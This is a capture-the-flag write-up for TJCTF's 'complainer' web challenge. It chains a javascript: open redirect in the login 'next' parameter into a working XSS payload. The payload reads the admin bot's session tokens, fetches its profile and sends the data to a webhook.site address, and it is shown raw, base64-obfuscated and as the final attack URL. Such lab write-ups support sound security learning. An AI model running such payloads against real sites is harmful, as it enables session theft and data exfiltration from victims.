 # complainer
Category: Web

## Description
I have A LOT to complain about, so I made a website to scream into the void!

[complainer.tjc.tf](https://complainer.tjc.tf/)

[Admin Bot](https://admin-bot.tjctf.org/complainer)

Attachments: [admin-bot.js](attachments/admin-bot.js), [server.zip](attachments/server.zip)

## Write-up
Upon accessing the provided URL, we encounter the following page:

![](solution/image1.png)

We proceeded by registering an account:

![](solution/image2.png)

After logging in to our account, we are greeted with this page:

![](solution/image3.png)

If we provide an input like `I WANT FLAG` and submit the form, we see the following:

![](solution/image4.png)

Nothing particularly interesting stands out from this result.

Next, we proceed to analyze the provided source code. After examination, we discover some useful information.

Firstly, in the `public/profile.js` file, we find that when an authenticated user accesses `/profile`, the browser fetches all the posts of the authenticated user:

```
fetch('/api/verify', {
    method: 'GET',
    headers: {
        'Authorization': `Bearer ${localStorage.getItem('userId')}:${localStorage.getItem('sessionId')}`
    }
}).then(res => res.json()).then(res => {
    if (!res.ok)
        throw res.error;
}).catch(_ => {
    localStorage.removeItem('sessionId');
    localStorage.removeItem('userId');
    window.location = '/login';
});


fetch(`/api/profile`, {
    method: 'GET',
    headers: {
        'Authorization': `Bearer ${localStorage.getItem('userId')}:${localStorage.getItem('sessionId')}`
    }
}).then(res => res.json()).then(res => {
    console.log(res);
    for (const [idx, post] of res.user.posts.entries()) {
        const complaint = document.createElement('div');
        complaint.id = `complaint-${idx}`;
        complaint.className = 'complaint';

        complaint.innerHTML = [...post.body].map((c, i) => `<a href='/post/${post.id}' id='${idx}-${i}-${c}'>${c}</a>`).join('');

        document.getElementById('complaints').appendChild(complaint);

        const anchors = document.querySelectorAll(`#complaint-${idx} > a`);

        anchors.forEach((a, i) => {
            let size = 1;
            setInterval(() => {
                a.style.fontSize = `${(i + 1) / anchors.length * size}em`;
                size += 0.1;
            }, 100);
        });
    }
})
```

Secondly, in the `public/login.js` file, we observe that when a user attempts to log in, we can optionally provide a `next` query parameter that redirects to the location specified by `next` after successful authentication.

```
function redirect() {
    if ('sessionId' in localStorage && 'userId' in localStorage)
        window.location = new URLSearchParams(window.location.search).get('next') ?? '/';
}

redirect();
```

With these two pieces of information, we can attempt to chain our exploit as follows:

1. The Admin logs in, with the `next` parameter pointing to a JavaScript payload using the `javascript` protocol.
2. The JavaScript payload includes logic to make a `fetch` request to `/profile` to retrieve all posts of the Admin.
3. Subsequently, we redirect the Admin to our web hook, appending the retrieved posts information as part of the request.

The following is the raw JavaScript payload to fetch all posts of the current authenticated user and redirect to the web hook with the posts information:

```
fetch("https://complainer.tjc.tf/api/profile",  {
headers: {
        'Content-Type': 'application/json',
        'Authorization': `Bearer ${localStorage.getItem('userId')}:${localStorage.getItem('sessionId')}`
   }
}).then(res => res.text()).then(res => {
location.href = "https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/" + res
})
```

We can encode our payload using base64 and then URL encode it to minimize parsing issues.

Base64 encoded:

```
javascript:eval(atob("ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk="))
```

URL encoded:

```
javascript%3Aeval%28atob%28%22ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk%3D%22%29%29
```

Finally, the URL to be sent to the Admin bot is [https://complainer.tjc.tf/login?next=https://complainer.tjc.tf/login?next=javascript%3Aeval%28atob%28%22ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk%3D%22%29%29](https://complainer.tjc.tf/login?next=https://complainer.tjc.tf/login?next=javascript%3Aeval%28atob%28%22ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk%3D%22%29%29).

After submitting the payload to the Admin bot, the following URL was intercepted by our web hook: [https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/%7B%22user%22:%7B%22username%22:%22b1198c214d8e88007ceedb913174128f%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22posts%22:[%7B%22id%22:%2200b11c42-b400-41e3-a053-5cad7d4cdac2%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22body%22:%22tjctf%7Bgrrrrrrrrr_315b9c0f%7D%22%7D]%7D,%22ok%22:true%7D](https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/%7B%22user%22:%7B%22username%22:%22b1198c214d8e88007ceedb913174128f%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22posts%22:[%7B%22id%22:%2200b11c42-b400-41e3-a053-5cad7d4cdac2%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22body%22:%22tjctf%7Bgrrrrrrrrr_315b9c0f%7D%22%7D]%7D,%22ok%22:true%7D)

Decoding the URL provides the output that reveals our flag:

```
https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/{"user":{"username":"b1198c214d8e88007ceedb913174128f","userId":"4c6bdde5-01b3-461b-9e13-874bc6febfa1","posts":[{"id":"00b11c42-b400-41e3-a053-5cad7d4cdac2","userId":"4c6bdde5-01b3-461b-9e13-874bc6febfa1","body":"tjctf{grrrrrrrrr_315b9c0f}"}]},"ok":true}
```

Flag: `tjctf{grrrrrrrrr_315b9c0f}`
